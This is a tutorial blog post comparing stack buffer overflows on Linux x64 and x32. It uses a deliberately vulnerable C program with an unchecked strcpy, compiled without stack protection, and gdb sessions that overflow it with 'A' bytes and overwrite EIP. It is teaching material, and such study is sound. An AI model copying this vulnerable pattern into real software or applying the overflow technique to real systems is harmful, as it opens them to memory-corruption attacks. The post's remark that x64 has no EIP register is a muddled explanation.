 ```yaml
---
layout: blog-post
title: "Classic Buffer overflow exploits on Linux x64"
excerpt: Classic Buffer overflow exploits on Linux x64
disqus_id: /2011/08/04/exploitdevlinux/
location: New Delhi, India
time: 8:00 PM
categories:
- Security
- Exploits
---
```


#{{ page.title }}

If you are learning buffer overflow exploit development on Linux x64 machine, then there are something which you need to take care of.

This is because architecture and execution of programs in x64 machine model is completely different from x32 machine model.

For a reference to stack frame in x64, refer to this [link](http://analyze-v.com/?p=468)

Consider this C program and I will demonstrate the effect of compiling this program for x32 and x64.

{% highlight c %}
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
	char buffer[500];
	strcpy(buffer, argv[1]);  //vulnerable function
	
	return 0;
}
{% endhighlight %}

If you are on x64, simply executing this command will compile it for x64

{% highlight c %}
gcc -ggdb -m64 -o buffer1 -fno-stack-protector -mpreferred-stack-boundary=4 buffer1.c
{% endhighlight %}

And this one for x32

{% highlight c %}
gcc -ggdb -m32 -o buffer1 -fno-stack-protector -mpreferred-stack-boundary=4 buffer1.c
{% endhighlight %}

Let's try to exploit this buffer overflow vulnerability using gdb on both the versions. Here are the outputs

x64:
{% highlight bash %}
madhur@bt:~/buffer$ gdb buffer1
GNU gdb (GDB) 7.1-ubuntu
Copyright (C) 2010 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/madhur/buffer/buffer1...done.
(gdb) run $(python -c 'print "\x41" * 1500')
Starting program: /home/madhur/buffer/buffer1 $(python -c 'print "\x41" * 1500')

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400565 in main (argc=Cannot access memory at address 0x4141414141413f3d
) at buffer1.c:10
10	}
(gdb) info registers
rax            0x0	0
rbx            0x0	0
rcx            0x41414141414141	18367622009667905
rdx            0x1000	4096
rsi            0x7fffffffe769	140737488349033
rdi            0x7fffffffe1f0	140737488347632
rbp            0x4141414141414141	0x4141414141414141
rsp            0x7fffffffde28	0x7fffffffde28
r8             0x7ffff7dd8300	140737351877376
r9             0x5c0	1472
r10            0x7	7
r11            0x7ffff7ba92a0	140737349587616
r12            0x400440	4195392
r13            0x7fffffffdf00	140737488346880
r14            0x0	0
r15            0x0	0
rip            0x400565	0x400565 <main+65>
eflags         0x10206	[ PF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
{% endhighlight %}

x32:
{% highlight bash %}
madhur@bt:~/buffer$ gdb buffer1
GNU gdb (GDB) 7.1-ubuntu
Copyright (C) 2010 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/madhur/buffer/buffer1...done.
(gdb) run $(python -c 'print "\x41" * 1500')
Starting program: /home/madhur/buffer/buffer1 $(python -c 'print "\x41" * 1500')
warning: the debug information found in "/lib/ld-2.11.1.so" does not match "/lib/ld-linux.so.2" (CRC mismatch).


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
eax            0x0	0
ecx            0x0	0
edx            0x5dd	1501
ebx            0xf7fbdff4	-134488076
esp            0xffffcf80	0xffffcf80
ebp            0x41414141	0x41414141
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10246	[ PF ZF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) 
{% endhighlight %}

As you can see in the outputs above, there is no EIP register in x64 version of program. And in the x32 version, the EIP value is correctly corrupted with our overflowed value of x41.

